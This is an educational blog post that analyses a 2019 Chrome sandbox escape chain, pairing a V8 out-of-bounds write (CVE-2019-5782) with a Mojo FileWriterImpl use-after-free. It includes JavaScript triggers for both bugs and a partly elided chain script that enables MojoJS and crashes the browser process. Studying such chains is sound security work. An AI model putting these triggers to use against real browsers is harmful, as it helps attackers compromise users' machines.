

# A Take on Chrome Sandbox Escape Exploit Chain

Google's Project Zero published a [blog post](https://googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html) explaining an exploit chain that bypass the Chrome browser sandbox. In this post, I will try to discuss my take on trying to understand the exploit chain. In summary, the sandbox bypass is made possible because of an [Out-of-bound read and write bug](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5782) in renderer process, chained with a [Use-After-Free (UAF) bug](https://bugs.chromium.org/p/project-zero/issues/detail?id=1755) in the browser process, triggered via Mojo IPC connection.

As disclaimer, this is **not** a bug that I find, **nor** that this is a full writeup about the exploit. I made this post to help me organise my thought in trying to understand the bug and the exploit.

## Security Architecture in Chromium

Google Chrome is based on Chromium, an open-source browser that is also forked into several other popular browsers, e.g. Opera, and Microsoft Edge.

.png>)

Chromium's architecture allocates the components into separated process between the browser kernel process and the rendering engine process. We can roughly say that the renderer process represent the _Tab_ (though one renderer process can manage multiple tabs in some cases), while the browser process represent the _Browser_ itself. So, in a chrome instance, there are 1 Browser Process and several Renderer Process.

.png>)

Also because of this architecture, if a web page is misbehaving and causes a process to crash, this will not crash the whole browser. Instead, it will only crash the specific tab opening the page.

.png>)

The renderer process is responsible for operations that need fast performance, such as HTML and CSS parsing, Javascript interpreter, Regex, DOM, etc. While these operations are fast, most of browser vulnerabilities found are related to these actions. On the other side, the browser process is responsible for more sensitive operations, such as cookie database, network management, window management, etc.

According to this paper [_The Security Architecture of the Chromium Browser_](https://seclab.stanford.edu/websec/chromium/chromium-security-architecture.pdf), the operations in renderer process contributes around 75% of the vulnerabilities (disclaimer: I'm doing rough unreliable non-academic estimate). So, the chance to compromise the renderer process is higher than compromising the browser process, which lead to a solution of **sandboxing** the renderer process.

.png>)

By running the renderer process in a sandbox with restricted privilege, we can mitigate high-severity attacks, such as preventing compromised renderer process to read / write to filesystem. Sandboxing force the renderer process to communicate with browser process API to interact with the outside world. The goal of the sandbox is to require even a compromised renderer process to use browser process interface to interact with the system. This communication between renderer processes and browser process is using [Mojo IPC](https://chromium.googlesource.com/chromium/src.git/+/master/mojo/README.md), an open source IPC library.

.png>)

One way that allow us to easily interact with Mojo is by activating the MojoJS Binding feature in Chromium. We can activate the feature by running the browser with flag `--enable-blink-features=MojoJS`. If this feature is activated, the browser will expose a `Mojo` javascript object that allows us to interact and override Mojo interfaces.

## Out-of-Bound Read/Write in Renderer Process

There is an out-of-bound memory access bug in renderer process discovered by @S0rryMybad (CVE-2019-5782). The bug resulted from incorrectly estimating the possible range of `arguments.length`. The JS optimiser incorrectly assumes that the maximum length of arguments is `65534`, while actually the it can be larger. From this wrong estimation, optimiser evaluate that `arguments.length >> 16` will always be `0` (which is incorrect).

We can leverage this to trigger BCE (Bounds-Check-Elimination) optimisation in JS compiler. In JS, Bounds checking is done when we are accessing or writing arrays. For example, if when we try to write index `3` of an array with length `1`, the bound checking will be done and no operation will be done. In the example below, it will output expected result `['y']`

```javascript
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[3] = 'ehe'
	return y
}

args = []
console.log(fun(...args)) // output: ['y']
```

Now, let's see what we can do with the false estimation by JS optimiser.

* Optimiser assumes that `arguments.length >> 16` is always `0`.
* For `x` our arguments length, we can define `x = 65537`, so `x >> 16` is actually `1`.
* Now, for any number `i`, we know that `(x >> 16) * i == i`. Meanwhile, optimiser assumes that `((x >> 16) * i)` will evaluate to `(0 * i)` which is always `0`.
* If we access an array with `arr[(x >> 16) * i]`, optimiser will assume that it will always evaluate to accessing index `0`, hence bounds-checking is not needed. Though in reality, it actually evaluate to accessing index `i`.

For example:

```javascript
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[(arguments.length >> 16) * 3] = 'ehe'
	return y
}

args = []
args.length = 65537
console.log(fun(...args)) // output: ??
```

You may notice that if you run that JS code in a javascript console (e.g. Chrome dev console), it will still output `['y']`. Does this means that our exploit does not work? This is related to JIT paradigm in Chrome.

Chrome is using V8 Javascript Engine which implementing **JIT (Just-in-Time)** paradigm, which combines the use of interpreter and compiler for executing code.

Basically, a code will be executed with **interpreter (**_**Ignition**_**)** by default, and V8 will keep track of how many times the code segments are executed. If the code segments are executed many times (hot code segments), the code segments will be compiled with a **compiler (**_**TurboFan**_**)**. In this compilation, optimisations will be applied, thus producing a faster execution time.

.png>)

Therefore, to make the optimiser remove the bounds-checking, we may need to run the function a lot of times before, thus triggering the JS engine to compile and optimise our `fun` function, eliminating the bounds checking.

```javascript
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[(arguments.length >> 16) * 3] = 'ehe'
	return y
}

for (let i = 0; i < 10000; i++) fun(1) // trigger optimization

args = []
args.length = 65537
console.log(fun(...args)) // output: ["ehe"]
```

Now, we can see from the output of the above code that we are able to write memory outside array _x_.

## Use-After-Free in Browser Process FileWriterImpl

There is a UAF in the implementation of Mojo Binding's FileWriter component, specifically at FileWriterImpl implementation. Read [Issue 1755 bugtracker](https://bugs.chromium.org/p/project-zero/issues/detail?id=1755).

```c
// simplified
void FileWriterImpl::Write(position, blob, callback) {
  blob_context_->GetBlobDataFromBlobPtr(
      std::move(blob),
      base::BindOnce(&FileWriterImpl::DoWrite, base::Unretained(this), std::move(callback), position));
}
```

As disclaimer, the code above is heavily simplified for explanation purpose. Basically, when we are calling `Write` function to write a blob data, the browser process will retrieve the BlobData using asynchronous function, and provide a callback to it. In the provided callback, FileWriterImpl is providing a reference to `this` or the FileWriterImpl instance itself with `base:Unretained()`. The `base::Unretained(this)` creates an unchecked reference of the `FileWriterImpl` instance. This could be dangerous if the `FileWriterImpl` instance is already freed when the callback is called, as it will continue its execution while referring to a stale pointer that refer to an already freed object.

Now, we are going to look for how to trigger the `free` of the unretained reference.

```c
// simplified
void BlobStorageContext::GetBlobDataFromBlobPtr(blob, callback) {
  raw_blob = blob.get();
  raw_blob->GetInternalUUID([](uuid) {
  		std::move(callback).Run(context->GetBlobDataFromUUID(uuid));
  	})
}
```

We see that in `GetBlobDataFromBlobPtr()`, it will call an asynchronous function `GetInternalUUID` to get the blob UUID, then call our provided callback. Fortunately (or unfortunately?), the `GetInternalUUID` is a mojo interface method. This means that renderer can define the implementation of `GetInternalUUID` if it passes a renderer-hosted Blob implementation instead of browser-process-hosted blob.

In short, what it implies is: If we (attacker) is able to control the renderer process, we can define the implementation of `GetInternalUUID`.

In our implementation of `GetInternalUUID`, we can destroy the renderer handle to FileWriter. This will trigger immediate destruction (free) of FileWriterImpl. Thus, when `GetInternalUUID` returns, it will call the callback while using the provided `base::Unretained(*FileWriterImpl)`, which is a stale pointer of an already freed object. Normally this will cause the browser process to crash.

```c
BlobImpl.prototype = {
    getInternalUUID: async (arg0) => {
        writer.writer.ptr.reset(); // destroy the renderer handle of FileWriter
        return {'uuid': "blob_0"};
    }
}
```



Note that destroying the FileWriter handle in renderer process will trigger the destruction of FileWriterImpl in browser process because FileWriterImpl is created and bound with `mojo::StrongBinding`.

```c
// simplified
void FileSystemManagerImpl::CreateWriter(const GURL& file_path,
                                        CreateWriterCallback callback) {
 ...
 blink::mojom::FileWriterPtr writer;
 mojo::MakeStrongBinding(std::make_unique(
                             url, context_->CreateFileSystemOperationRunner(),
                             blob_storage_context_->context()->AsWeakPtr()),
                         MakeRequest(&writer));
 std::move(callback).Run(base::File::FILE_OK, std::move(writer));
}
```

You may have noticed that this bug cannot be exploited directly in a real world scenario of a normal Chrome user. This is because we need access to communicate with the Mojo interface from Javascript. In a default instance of Chrome browser, the Mojo interface is not exposed and cannot be used by javascript in a webpage.

## The Sandbox Bypass

Let's limit our goal, we just want to crash the Chrome browser of a normal user running default Chrome instance.

The idea is as follows:

* Victim visit our specially crafted HTML page
* With CVE-2019-5782, we setup Out-of-Bound Read/Write in Renderer Process (discussed in previous section)
* With OoB read/write, we enable MojoJS Binding in browser (discussed later)
* With MojoJS Binding now enabled and exposed to JS context, the page can communicate with Mojo IPC interface directly.
* Execute the UAF exploit to free FileWriterImpl (discussed in previous section), virtually bypassing sandbox and crashing the Browser Process.


### Enabling MojoJS Binding

We know that with UAF discovered in _Issue 1755_, we can crash the browser. But, we need to have MojoJS binding enabled, and it is definitely not _cool_ to ask our target to enable the MojoJS flag when running their Chrome browser. Instead, we are going to exploit the Out-of-Bound memory access bug to enable the Mojo Binding.

Inside the Chrome source code, we can see that MojoJS feature is added to Javascript context in `RenderFrameImpl::DidCreateScriptContext`.

```c
void RenderFrameImpl::DidCreateScriptContext(v8::Local context,
                                             int world_id) {
  if ((enabled_bindings_ & BINDINGS_POLICY_MOJO_WEB_UI) && IsMainFrame() &&
      world_id == ISOLATED_WORLD_ID_GLOBAL) {
    blink::WebContextFeatures::EnableMojoJS(context, true);
  }
  ...
}
```

In the function, MojoJS is enabled if `(enabled_bindings_ & BINDINGS_POLICY_MOJO_WEB_UI)` is true). By using OoB memory access bug, we can write and set the `enabled_bindings_` variable `BINDINGS_POLICY_MOJO_WEB_UI` value. Then, we can reload the page so `Mojo` in our javascript context.

### Sandbox Escape and Crashing the Browser

Not that we have MojoJS binding enabled, we can use the exploit for UAF bug in Issue 1755. The steps are as follows:

* A user visit our specially crafted HTML page.
* With CVE-2019-5782, we set `enabled_bindings_` value accordingly to enable MojoJS binding. Then reload the page.
* With Mojo now exposed to JS context, the page can communicate with Mojo IPC interface directly.
* Execute the UAF exploit to free FileWriterImpl.

When the browser process use the stale pointer inside the unretained FileWriterImpl reference, the browser will crash.

We are reusing some of the code in the attached exploit at [Issue 1755 bug tracking](https://bugs.chromium.org/p/project-zero/issues/detail?id=1755). The simplified code is as follows:

```javascript
<script src="/many_args.js">script>
<script src="/enable_mojo.js">script>
<script src="/crash.js">script>

<script>
  let oob = new many_args(); // setup OOB read/write
  if (typeof(Mojo) !== "undefined") {
    print('[enable_mojo] mojo already enabled')
    crash(oob);
  } else {
    enable_mojo(oob);
  }
script>
```

```javascript
// crash.js

async function CreateWriter() {
  // create writer from blink.mojom.FileSystemManagerPtr ...
}

async function RegisterBlob0() {
  // register blob_0 to blob registry ...
}

async function crash(oob) {
  print('[sandbox_escape] exploiting issue_1755 to escape sandbox and crash browser');

  var writer = await CreateWriter()

  print('  [*] crafting renderer-hosted blob implementation')
  function Blob0Impl() {
    this.binding = new mojo.Binding(blink.mojom.Blob, this);
  }
  Blob0Impl.prototype = {
    getInternalUUID: async (arg0) => {
      print('  [*] getInternalUUID is called');

      print('  [!] freeing FileWriterImpl');
      create_writer_result.writer.ptr.reset();

      // sleep 3 seconds ...

      print('  [*] resuming FileWriterImpl::DoWrite, prepare to crash');
      return {'uuid': 'blob_0'};
    }
  };

  RegisterBlob0();

  let blob_impl = new Blob0Impl();
  let blob_impl_ptr = new blink.mojom.BlobPtr();
  blob_impl.binding.bind(mojo.makeRequest(blob_impl_ptr));

  print('  [*] calling Write with renderer-hosted blob implementation')
  writer.writer.write(0, blob_impl_ptr);
}
```

In `index.html`, we are setting up the out-of-bound read/write bug by exploiting CVE-2019-5782. Then, at first we visit the page, we enable the Mojo binding, and reload the page. Now that the Mojo binding is enabled (not undefined), we call the `crash` function.

In `crash` function, we are registering a blob with id `blob_0` to blob registry, then we define our custom Blob implementation with a malicious implementation of `getInternalUUID`. Finally we call the `Write` function with a custom renderer-hosted blob implementation.

Inside our custom `getInternalUUID`, we free the `FileWriterImpl` instance. When the function return and the execution is passed to `DoWrite`, the freed / stale pointer will be used, causing the browser to crash.

## Sandbox Escape Demo


## Conclusion

Please note that this is not a writeup of an exploit. In this post, I discussed about the general idea how to escape the sandbox in Chromium-based browser, in this case Google Chrome. The idea presented in this post can still be leveraged to increase the damage, e.g. executing system call to execute a program (e.g. popup calculator). As I first mentioned, this post acts to help me organise my thought while trying to understand the exploit chain posted in Project Zero blog. Therefore, I recommend reading [their post](https://github.com/adamyordan/blog/blob/master/content/posts/googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html).

## References

* [Google Project Zero - Virtually Unlimited Memory: Escaping the Chrome Sandbox](https://googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html)
* [Chromium bug tracker - issue 1755](https://bugs.chromium.org/p/project-zero/issues/detail?id=1755)
* [Cvemitre - CVE-2019-5782](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5782)
* [Chromium docs - Getting chromium source code](https://www.chromium.org/developers/how-tos/get-the-code)
* [Chromium design document - Multi process architecture](http://dev.chromium.org/developers/design-documents/multi-process-architecture)
* [Chromium design document - How Blink works](https://docs.google.com/document/d/1aitSOucL0VHZa9Z2vbRJSyAIsAz24kX8LFByQ5xQnUg/edit)
* [CVE-2019-5782 exploit PoC](https://github.com/vngkv123/aSiagaming/tree/master/Chrome-v8-906043)
* [Chromium repo - Mojo IPC docs](https://chromium.googlesource.com/chromium/src.git/+/master/mojo/README.md)
* [Stanford paper - The Security Architecture of the Chromium Browser](https://seclab.stanford.edu/websec/chromium/)
